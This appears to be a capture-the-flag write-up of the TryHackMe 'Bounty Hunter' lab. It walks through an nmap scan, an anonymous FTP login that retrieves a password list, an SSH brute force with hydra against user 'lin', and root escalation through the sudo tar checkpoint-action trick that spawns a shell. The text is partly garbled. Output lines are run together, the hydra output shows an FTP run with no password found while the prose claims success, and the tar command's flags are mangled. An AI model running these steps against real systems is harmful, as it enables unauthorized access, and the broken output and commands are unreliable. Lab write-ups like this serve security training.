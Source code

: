 # TryHackMe Bounty Hunter

<div style="text-align: center;">
  <img src="/assets/bounty_hunter1.webp" alt="mannaully
" width="600">
</div>

```
TryhackMe Machine:- Bounty Hunter
Machine Info:- 
Machine Level:- Easy
```

---
Lets start with an quick nmap scan and see which ports are open and working.

Nmap Scan

```bash
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3|
ftp-syst: |   STAT: | FTP server status:|      Connected 
to ::ffff:10.17.33.72|      Logged in as ftp|      TYPE: 
ASCII|No session bandwidth limit|      Session timeout in
seconds is 300| Control connection is plain text|      
Data connections will be plain text|      
At session startup, client count was 4|      vsFTPd 3.0.3
- secure, fast, stable|_End of status| ftp-anon: Anonymous 
FTP login allowed (FTP code 230)| -rw-rw-r--    1 ftp      
ftp           418 Jun 07  2020 locks.txt|_ -rw-rw-r--    1 ftp      ftp            
68 Jun 07  2020 task.txt22/tcp open  ssh    
OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)| ssh-hostkey: |
2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)|
256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)|
_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))|_http-title: 
Site doesn't have a title (text/html).|_http-server-header: 
Apache/2.4.18 (Ubuntu)Aggressive OS guesses: HP P2000 G3 NAS device (91%), 
Linux 2.6.32 (90%), Linux 2.6.32 - 3.1 (90%), Ubiquiti AirMax NanoStation 
WAP (Linux 2.6.32) (90%), Linux 3.7 (90%), Linux 5.0 (90%), Linux 5.1 (90%),
Ubiquiti AirOS 5.5.9 (90%), Linux 5.0 - 5.4 (89%), Ubiquiti Pico Station WAP
(AirOS 5.2.6) (89%)No exact OS matches for host (test conditions non-ideal).
Network Distance: 5 hopsService Info: OSs: Unix, Linux; CPE: cpe:/
o:linux:linux_kernelTRACEROUTE (using port 80/tcp)HOP RTT       ADDRESS1   
22.96 ms  10.17.0.12   ... 45   145.37 ms 10.10.0.198OS and Service detection 
performed. Please report any incorrect results at https://nmap.org/submit/ .Nmap 
done: 1 IP address (1 host up) scanned in 33.70 seconds
```

We can see in the nmap result that ftp port 21 and ssh port 22 is open firstly im going to try ftp into the machine.

FTP into the machine.

The FTP is accessible try login with anonymous. command :-

Ftp <IP_Address> when asked for user enter anonymous.

```bash
ftp> ls -la200 PORT command successful. Consider using PASV.150 
Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt226 
Directory send OK.ftp>
```

We got 2 files in afte we successfully logined in into the ftp server.

Get the files locks.txt and task.txt they are needed in further enumeration.

```bash
get task.txtget locks.txt
```

After this we analysed the files and in task.txt we found a user (lin).

```bash
$ cat task.txt1.) Protect Vicious.2.) Plan for Red Eye pickup on the moon.-lin
```

locks.txt Clearly looks like a wordlist so we will use it for bruteforce.

```bash
*$ cat locks.txt* 
- rEddrAGON- ReDdr4g0nSynd!cat3
- Dr@gOn$yn9icat3
- R3DDr46ONSYndIC@Te- ReddRA60N
- R3dDrag0nSynd1c4te- dRa6oN5YNDiCATE
- ReDDR4g0n5ynDIc4te- R3Dr4gOn2044
- RedDr4gonSynd1cat3- R3dDRaG0Nsynd1c@T3
- Synd1c4teDr@g0n- reddRAg0N
- REddRaG0N5yNdIc47e- Dra6oN$yndIC@t3
- 4L1mi6H71StHeB357- rEDdragOn$ynd1c473
- DrAgoN5ynD1cATE- ReDdrag0n$ynd1cate
- Dr@gOn$yND1C4Te- RedDr@gonSyn9ic47e
- REd$yNdIc47e- dr@goN5YNd1c@73
- rEDdrAGOnSyNDiCat3- r3ddr@g0N- ReDSynd1ca7e
```

I used hydra to brute force ssh login using the user name lin and the wordlist locks.txt.

```bash
hydra -l lin -P locks.txt <IP_Address> ssh
```

```bash
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak 
- Please do not use in military or secret service organizations, 
or for illegal purposes (this is non-binding, these 
*** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) 
starting at 2021-12-22 21:45:38[DATA] max 16 tasks per 1 server,
overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task[DATA] attacking ftp://10.10.0.198:21/1 of 1 target completed, 0 valid password foundHydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-22 21:45:39
```

We found the password and login via ssh we see the user flag we just cat the user flag user.txt — THM{userflag}.

Now we need to escalate our privilege we can exploit lin’s sudo privilege.

```bash
lin@bountyhacker:~$ sudo -l[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:    
env_reset, mail_badpass, 
secure_path=/usr/local/sbin\:/usr/local/bin\:
/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/binUser 
lin may run the following commands on bountyhacker:    
(root) /bin/tar
```

I searched more on tar sudo privilege escaltion and found this.

just run the following command.

```bash
sudo tar -cf /dev/null /dev/null - checkpoint=1 - checkpoint-action=exec=/bin/sh
```

<div style="text-align: center;">
  <img src="/assets/bounty_hunter2.webp" alt="mannaully
" width="500">
</div>
Now we have a root access you can see by typing :- sudo -l.

And got the root access and the root flag.

<div style="text-align: center;">
  <img src="/assets/bounty_hunter3.webp" alt="mannaully
" width="500">
</div>
Thank you for reading
